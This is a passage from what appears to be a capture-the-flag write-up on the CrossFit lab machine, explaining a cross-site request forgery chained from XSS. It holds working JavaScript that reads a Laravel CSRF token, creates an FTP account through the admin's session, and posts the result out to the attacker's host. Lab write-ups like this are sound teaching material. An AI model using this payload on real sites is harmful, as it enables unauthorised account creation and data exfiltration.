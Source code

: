                     <button type="submit" class="btn btn-primary">Submit</button>
            </div>
        </div>
    
    </form>
    

### CSRF Account Request

I want to create an account from the admin’s machine. This is now moving from
XSS to Cross-Site Request Forgery (CSRF / XSRF), where I trick some other
person to take an action I want under their access/authority. In this case, I
want the admin to create an account on ftp.crossfit.htb for me.

The challenge here is the `_token` value in the form. I need to get that, and
then return it with the request. Googling for `csrf "_token"`, the first two
responses are for the Laravel framework:

![image-20210123070635445](https://0xdfimages.gitlab.io/img/image-20210123070635445.png)

According to [the docs](https://laravel.com/docs/8.x/csrf):

> Laravel automatically generates a CSRF “token” for each active [user
> session](https://laravel.com/docs/8.x/session) managed by the application.
> This token is used to verify that the authenticated user is the person
> actually making the requests to the application. Since this token is stored
> in the user’s session and changes each time the session is regenerated, a
> malicious application is unable to access it.

That means I need to make sure that the CSRF is collected and then re-sent
within a single session. To do that, I just [need to
set](https://stackoverflow.com/questions/50948129/use-the-same-session-in-
xmlhttprequest) `request.withCredentials = true;` in my `XMLHttpRequest`
object.

I’ll start with a request to get the page at
`ftp.crossfit.htb/accounts/create`. In that page, I’ll find the CSRF token,
and then send a POST to `ftp.crossfit.htb/accounts` with the token and a
username and password. I’ll then POST the results of that back to my host.

    
    
    function get_token(body) {
        var dom = new DOMParser().parseFromString(body, 'text/html');
        return dom.getElementsByName('_token')[0].value;
    }
    
    
    var fetch_req = new XMLHttpRequest();
    fetch_req.onreadystatechange = function() {
        if (fetch_req.readyState == XMLHttpRequest.DONE) {
            var token = get_token(fetch_req.response);
    
            var reg_req = new XMLHttpRequest();
            reg_req.onreadystatechange = function() {
                if (reg_req.readyState == XMLHttpRequest.DONE) {
                    var exfil_req = new XMLHttpRequest();
                    exfil_req.open("POST", "http://10.10.14.11:3000/", false);
                    exfil_req.send(reg_req.response);
                }
            };
            reg_req.open("POST", "http://ftp.crossfit.htb/accounts", false);
            reg_req.withCredentials = true;
            reg_req.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
            reg_req.send("_token=" + token + "&username=0xdf&pass=0xdf0xdf");
        }
    };
    